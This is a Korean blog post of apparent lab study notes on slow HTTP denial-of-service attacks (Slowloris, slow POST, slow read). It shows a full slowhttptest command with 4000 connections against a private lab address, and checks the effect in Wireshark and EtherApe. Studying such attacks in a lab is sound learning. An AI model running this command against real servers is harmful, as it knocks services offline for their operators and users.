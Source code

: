 ```yaml
---
title:  "Http header DOS" 

categories:
  - Dos
tags:
  - [dos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


##  HTTP Header Dos

- Slow HTTP Header Dos(= Slowloris)

  - HTTP 요청의 Header의 마지막(Black)을 설정하지 않은 조작된 요청을 전달 함

  - 서버는 클라이언트의 요청이 모두 수신되지 않았다고 판단하고 수신될 때까지 유지하면 자원을 소모 함

    ![화면 캡처 2022-10-06 164211](../../assets/img/화면 캡처 2022-10-06 164211.png)

- 패키지 설치

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest
  ```

  ![화면 캡처 2022-10-06 164415](../../assets/img/화면 캡처 2022-10-06 164415.png)

- 실행 테스트

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest
  ```

  ![화면 캡처 2022-10-06 164508](../../assets/img/화면 캡처 2022-10-06 164508.png)

- 공격

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest -g -o slowloris -c 4000 -i 10 -r 100 -t get -x 3 -p 3 -u http://172.16.0.120
  ```

  ![화면 캡처 2022-10-06 165058](../../assets/img/화면 캡처 2022-10-06 165058.png)

  ![화면 캡처 2022-10-06 165153](../../assets/img/화면 캡처 2022-10-06 165153.png)

- 와이어 샤크 확인

  - 공격 하기전 

    ![화면 캡처 2022-10-06 164947](../../assets/img/화면 캡처 2022-10-06 164947.png)

  - 공격 후

    ![화면 캡처 2022-10-06 165313](../../assets/img/화면 캡처 2022-10-06 165313.png)

- slowloris 공격 결과 파일 확인

  ![Untitled (1)](../../assets/img/Untitled (1)-1665043527392-17.png)

- etherape 를 통한 확인

  - 네트워크 부하 확인하는 GUI  도구

  - 설치 및 실행

    ```
    ┌──(root㉿kali)-[~]
    └─# apt install etherape 
    ┌──(root㉿kali)-[~]
    └─# etherape
    ```

    ![화면 캡처 2022-10-06 170755](../../assets/img/화면 캡처 2022-10-06 170755.png)

  - 설치 후 다시 slowloris 공격

    ```
    ┌──(root㉿kali)-[~]
    └─# slowhttptest -g -o slowloris -c 4000 -i 10 -r 100 -t get -x 3 -p 3 -u http://172.16.0.120
    ```

  - etherape 로 확인

    ![화면 캡처 2022-10-06 170424](../../assets/img/화면 캡처 2022-10-06 170424.png)

- Slow HTTP POST Dos
  - POST 요청으로 전달하는 많은 양의 데이터를 장시간에 걸쳐 분할 전송 함

  - 서버가 POST 요청을 모두 전달 받을 때까지 연결을 유지하면서 자원을 소모 함

    ![화면 캡처 2022-10-06 171215](../../assets/img/화면 캡처 2022-10-06 171215.png)

- Slow HTTP read Dos
  - TCP의 전송 가능한 버퍼 사이즈(Window)를 조작하여 데이터 처리율을 감소시킨 후 HTTP 메시지를 전송 하여 정상 응답을 하지 못하도록 유도하는 공격

    ![화면 캡처 2022-10-06 171248](../../assets/img/화면 캡처 2022-10-06 171248.png)